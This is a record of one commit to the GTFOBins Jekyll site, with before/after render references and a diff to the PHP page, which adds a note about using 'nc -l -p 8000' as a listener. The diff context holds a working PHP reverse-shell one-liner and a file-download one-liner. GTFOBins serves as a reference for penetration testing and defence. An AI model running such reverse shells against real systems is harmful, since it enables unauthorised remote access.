

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/php.md, in a window 1280 px wide. Shown: the whole page at 97% size, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1403 px from its top, so only the background shows below that.

Commit message:
Add PHP reverse-shell description

```diff
--- a/_gtfobins/php.md
+++ b/_gtfobins/php.md
@@ -32,7 +32,8 @@ functions:
         export LFILE=file_to_get
         php -r '$c=file_get_contents($_ENV["URL"]);file_put_contents($_ENV["LFILE"], $c);'
   reverse-shell:
-    - code: |
+    - description: Run `nc -l -p 8000` to receive the shell on the other end.
+      code: |
         export RHOST=127.0.0.1
         export RPORT=8000
         php -r '$sock=fsockopen($_ENV["RHOST"],$_ENV["RPORT"]);exec("/bin/sh -i <&3 >&3 2>&3");'
```
